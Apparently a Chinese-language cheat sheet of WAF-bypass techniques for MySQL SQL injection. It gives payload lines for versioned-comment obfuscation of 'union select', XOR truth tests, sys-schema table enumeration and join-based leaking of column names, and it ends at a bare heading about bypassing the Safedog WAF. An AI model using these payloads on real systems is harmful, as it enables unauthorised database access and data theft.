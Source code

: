 ## waf绕过

常用方法：

1. 注释

   ```mysql
   /**/：在MySQL里，多行注释是/**/，这是SQL的标准
   /*!*/：但是MySQL扩张了注释的功能，假如在开头的/*后面加了感叹号，那么注释里的语句将被执行
   /*!50001xxx*/：这里的50001表示假如数据库是5.00.01以上的版本，该语句才会被执行
   ```

   

2. 空白符

3. 特殊符号

4. 编码

5. 替换

   ```mysql
   1.and和or替换
   	一、&&和||
   	二、使用异或截断
   		?id=1^1^0
   		?id=1^0^0
   	三、使用[``operation]
   		and{`test` 1=2}
   		and{`test` 1=1}
   	四、直接使用真假
   		&& true
   		&& false
   2.order by替换
   	group by
   3.union select
   	union select放在一起被过滤的情况下，试着在union和select中间插入一些字符比如/*!90000benben*/，注释符里的指令会被执行，但是由于版本号小于90000，所以不会被执行，从而绕过waf的同时不会干扰其它指令的执行
   	union all select
   4.information_shcema.tables
   	sys.schema_table_statistics_with_buffer
   	sys.x$ps_schema_table_statistics_io
   5.information_schema.columns
   	join法获取列名(前提是有报错回显，盲注不可用)
   		第一列列名：union /*!90000a*/ select * from (select * /*!90000a*/from /*!90000a*/users as a join users as b)as c——会将第一个列名通过报错的形式显示出来
   		第二列列名：union /*!90000a*/ select * from (select * /*!90000a*/from /*!90000a*/users as a join users as b using(id))as c——在第一个列名被暴露之后，使用using(id)过滤掉一个个列名，从而显示第二个列名
   		第三列列名：union /*!90000a*/ select * from (select * /*!90000a*/from /*!90000a*/users as a join users as b using(id,username))as c——暴露两个列名后，用using(id,username)过滤第一第二个列名，得到第三个列名
   ```
   

### 安全狗4.0.26550绕过
